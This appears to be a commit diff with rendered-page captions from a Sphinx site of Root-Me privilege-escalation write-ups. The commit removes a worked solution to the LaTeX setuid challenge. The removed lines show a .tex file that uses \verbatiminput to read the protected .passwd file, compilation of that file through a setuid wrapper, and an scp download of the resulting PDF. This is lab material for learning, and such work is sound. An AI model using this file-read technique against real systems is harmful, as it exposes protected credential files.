

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/root-me/latex.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
App-Script root-me challenges

````diff
--- a/source/docs/root-me/latex.md
+++ b/source/docs/root-me/latex.md
@@ -16,8 +16,6 @@ Attention:
     Publishing solutions publicly (blog, github, youtube, etc.) is forbidden.
     Publier des solutions publiquement (blog, github, youtube, etc.) est interdit.
 ```
-
-The solution is not given here. The flow to get it is.
 
 ```text
 $ ls -la
@@ -51,27 +49,9 @@ $ pwd
 /challenge/app-script/ch23
 ```
 
-After several attempts using the hacks from the resources given, I decided to look in other directions and made a swerve to [GTFOBins pdflatex](https://gtfobins.github.io/gtfobins/pdflatex/), applying it in this `/tmp/article.tex`:
+After several attempts using the hacks from the resources given, I decided to look in other directions and made a swerve to [GTFOBins pdflatex](https://gtfobins.github.io/gtfobins/pdflatex/).
 
-```text
-\documentclass{article}
-\usepackage{verbatim}
-\begin{document}
-\verbatiminput{/challenge/app-script/ch23/.passwd}
-\end{document}
-```
-
-Then created `main.pdf` using the `setuid-wrapper` binary:
-
-```text
-$ ~/setuid-wrapper /tmp/article.tex
-```
-
-And extracted the resulting `.pdf` file to the local machine using `scp`. Mind to change the `/path/to/` to the results:
-
-    $ scp -P 2222 app-script-ch23@challenge02.root-me.org:</path/to/>main.pdf /home/kali/Downloads/
-
-Lo and behold. Finally! It contained the flag (leave out the `%`).
+The LaTeX module `verbatim` permits input of a file without interpreting it.
 
 ## Resources
 
--- a/source/index.rst
+++ b/source/index.rst
@@ -106,6 +106,7 @@ While privilege escalation is not the end goal, it is a key element of the attac
    docs/root-me/bash-unquoted-exp.md
    docs/root-me/perl-cmd-injection.md
    docs/root-me/bash-cron.md
+   docs/root-me/python-input.md
 
 ----
 
````
Also changed, not shown: source/docs/root-me/README.md (+1 -0 lines), source/docs/root-me/bash-unquoted-exp.md (+2 -7 lines), source/docs/root-me/bash2.md (+1 -12 lines), source/docs/root-me/python-input.md (added, +7 -0 lines), source/docs/root-me/sudo-weak-config.md (+5 -7 lines).
